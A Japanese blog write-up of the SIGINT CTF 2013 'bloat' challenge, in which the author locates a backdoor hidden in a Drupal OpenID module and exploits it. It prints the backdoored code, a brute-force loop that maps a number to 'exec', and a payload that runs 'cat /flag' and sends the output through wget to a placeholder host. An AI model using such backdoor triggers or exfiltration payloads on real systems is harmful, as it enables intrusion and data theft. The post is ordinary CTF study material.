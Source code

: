 ```yaml
---
title: SIGINT CTF 2013 writeup – bloat (cloud 200)
author: tyage
type: posts
date: 2013-07-16T20:23:45+00:00
url: /?p=689
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:590:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">define('OPENID_DH_DEFAULT_GEN', '86');</p></div>
    ";i:2;s:2414:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
    212
    213
    214
    215
    216
    217
    218
    219
    220
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
          <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
      <span style="color: #009900;">&#123;</span>
       <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span>
    <span style="color: #b1b100;">else</span>
        <span style="color: #009900;">&#123;</span>
         <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">      $discovery = openid_discovery($imaginably);
          if(strpos($imaginably, '@'))
      {
       list($user, $host) = explode('@', $imaginably, 2);
    }
    else
        {
         $user = false;
         $host = false;
         }</p></div>
    ";i:3;s:1329:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
    248
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
        $service['uri'] = drupal_map_assoc(array($host), $user_enc);</p></div>
    ";i:4;s:2110:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
      <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">for ($i=0;$i&lt;100000;++$i) {
      $user_enc = _openid_dh_long_to_base64($i * 86);
      if (is_callable($user_enc)) {
        var_dump($user_enc);
        var_dump($i);
      }
    }</p></div>
    ";}
categories:
  - CTF

---
```

<h3>CTF</h3>
<p>えと、ブログを更新停止している間に、Epsilon DeltaとしていくつかCTFに参加していました。</p>
<ul>
<li>Codegate YUT Preliminary 2013</li>
<li>Nuit du Hack CTF Quals 2013</li>
<li>BaltCTF Quals 2013</li>
<li>SECUINSIDE CTF Quals 2013</li>
<li>Boston Key Party CTF 2013</li>
<li>DEF CON CTF Qualifier 2013</li>
<li>SIGINT CTF 2013</li>
</ul>
<p>はじめは海外のCTFの感覚がつかめず、ちゃんと解いたような記憶もなかったのですが、BKPあたりからは少し慣れてきたような気がします。</p>
<p>今まで解いてた問題のwrite upを書こうとも思ったのですが、すっかり忘れてしまっているため、一番最近やったSIGINT CTFのwrite upを書くことにします。</p>
<p><!--more--></p>
<hr />
<h3>bloat</h3>
<p><a href="https://ctf.sigint.ccc.de/challenges/24/">SIGINT CTF 2013 – bloat (cloud 200)</a></p>
<p>この問題は、PHPで作られたWebアプリケーションにバックドアが仕掛けられているので、それを発見しろという問題です。</p>
<p>ソースコードが配られているのでそれを見てバックドアを探します。</p>
<p>配布されたソースコードはDrupalを使用したものでした。</p>
<p>ということなので、早速diffをとってみるのですが、様々な場所の変数名が変更されており、またインデントや改行もめっちゃくちゃにされていたため、diffをとると何万行ものダミー変更部に悩まされることになり、バックドアの発見は難しくなっていました。</p>
<p>そこで、PHPの構文を解析して圧縮してくれる<a href="https://code.google.com/p/php-compressor/">php-compressor</a>を使用し、ファイルを圧縮した上でdiffをとってみました。<br />
（実際には今回の問題用に圧縮後の変数名の命名方法を変更するなどしています。）</p>
<p>すると、何千行か関係のないdiffもあったのですが、openID関連のファイルにバックドアらしき変更がされているのが見つかりました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
212
213
214
215
216
217
218
219
220
</pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
  <span style="color: #009900;">&#123;</span>
   <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span>
<span style="color: #b1b100;">else</span>
    <span style="color: #009900;">&#123;</span>
     <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #009900;">&#125;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
248
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>drupal_map_assocをみてみると、array_mapを使用しているため、$user_encが関数名となればその関数を実行できるようだとわかりました。</p>
<p>そこで、実行できる関数を探すため、以下のscriptを走らせたところ、execとfile関数が実行可能であると判明しました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
  <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span></pre></td></tr></table></div>

<p> => 結果：</p>
<pre>
string(4) "exec"
int(93802)
string(4) "file"
int(96141)
</pre>
<p>ここまでくれば、あとはexec関数を実行するだけです。</p>
<p>しかし、関数の実行結果はレスポンスで帰ってこないため、wgetを使用して、結果を見れるようにしました。</p>
<p>色々したところ、/flagにflagがあることが判明したので、以下の文字列をopenIDに入力して送信し、flagを獲得しました。</p>
<pre>
93802@cat /flag | awk '{print "http://xxxxx/xxx?key=" $0;}' | xargs wget
</pre>
<h3>オチ</h3>
<p>最終的に解けたのはいいのですが、実はコンテストの開催期間を勘違いしており、問題をちゃんと解き始めた時点でコンテストが終わっていたのでした・・・</p>
<p>結局、ポイント的に今回はチームに貢献することができませんでしたorz</p>
<p>この問題のポイントを獲得したのは1チームだけだったようです。<br />
参考にそのチームの方のwrite upを載せておきます。</p>
<p><a href="https://cesena.ing2.unibo.it/2013/07/07/sigint-2013-cloud200-bloat/">SIGINT 2013 – [cloud200] bloat</a></p>
<p>個人的には最後にncコマンドを使用したところは非常に参考になりました。<br />
なんで思いつかなかったんだろう。。。</p>
